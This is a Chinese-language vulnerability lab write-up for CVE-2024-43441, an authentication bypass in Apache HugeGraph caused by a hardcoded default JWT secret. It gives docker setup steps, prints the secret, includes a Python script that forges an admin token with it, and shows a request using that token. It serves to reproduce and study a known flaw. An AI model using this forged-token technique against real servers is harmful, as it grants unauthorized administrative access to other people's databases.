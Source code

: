 # Apache HugeGraph JWT Token硬编码导致权限绕过（CVE-2024-43441）

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能，具有出色的性能和企业级的可靠性。

Apache HugeGraph 存在一个 JWT token 密钥硬编码漏洞。当启用了认证但未配置 `auth.token_secret` 时，HugeGraph 将使用一个硬编码的默认 JWT 密钥，其值为 `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`。攻击者可以使用这个默认密钥生成有效的 JWT token，从而绕过认证执行未经授权的操作。

参考链接：

- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

## 环境搭建

执行如下命令启动 Apache HugeGraph 1.3.0 服务器：

```
docker compose up -d
```

服务启动后，可以通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。

默认情况下，Apache HugeGraph 支持两种认证模式：HTTP基础认证和JWT认证。当启动 docker 容器时，系统会使用环境变量 PASSWORD 中指定的值作为默认管理员的密码。在正常情况下，您可以使用用户名 "admin" 和该密码通过 HTTP 基础认证访问 API。

如果您尝试在不提供任何认证头的情况下访问 API，将会收到如下错误：

```json
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

## 漏洞复现

除了默认管理员密码外，我们还可以使用默认 JWT 密钥生成有效的 JWT token 绕过认证。

生成一个使用默认密钥的 JWT token：

```python
# 安装 jwt 库，运行 `pip install pyjwt`
import jwt

# 使用默认密钥生成 JWT token
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

使用生成的 token 访问受保护的端点：

```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

您将收到如下响应：

![](1.png)

如果您移除 `Authorization` 头，您将收到如下错误：

![](2.png)
